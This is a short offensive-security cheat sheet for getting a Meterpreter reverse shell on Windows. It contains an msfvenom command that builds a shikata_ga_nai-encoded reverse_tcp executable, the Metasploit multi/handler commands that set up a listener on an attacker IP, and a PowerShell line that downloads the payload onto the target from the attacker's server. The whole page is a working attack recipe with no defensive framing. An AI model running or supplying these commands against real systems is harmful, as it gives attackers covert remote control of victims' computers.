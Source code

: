 ## Meterpreter Reverse Shell

### Generate Meterpreter reverse shell
```bash copy
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.10.10 LPORT=1234 -f exe -o shell-name.exe
```
- Creates a Meterpreter reverse shell executable.
- `-p windows/meterpreter/reverse_tcp`: Payload type.
- `-a x86`: 32-bit architecture.
- `--encoder x86/shikata_ga_nai`: Obfuscation encoder.
- `LHOST=10.10.10.10`: Attacker IP.
- `LPORT=1234`: Attacker port.
- `-f exe`: Output as executable.
- `-o shell-name.exe`: Output file.

### Start Metasploit handler
```bash copy
sudo msfconsole
```
- Launches the Metasploit console.


```bash copy
use exploit/multi/handler
```
- Selects the multi-handler exploit module.


```bash copy
set PAYLOAD windows/meterpreter/reverse_tcp
```
- Sets the Meterpreter reverse TCP payload.


```bash copy
set LHOST 10.10.10.10
```
- Sets the attacker IP for the handler.


```bash copy
set LPORT 1234
```
- Sets the attacker port for the handler.


```bash copy
run -j
```
- Runs the handler in the background.
- `-j`: Runs as a background job.

### Download and run Meterpreter shell
```powershell copy
powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10:80/shell-name.exe','shell-name.exe')
```
- Downloads the Meterpreter executable from the attacker’s server.
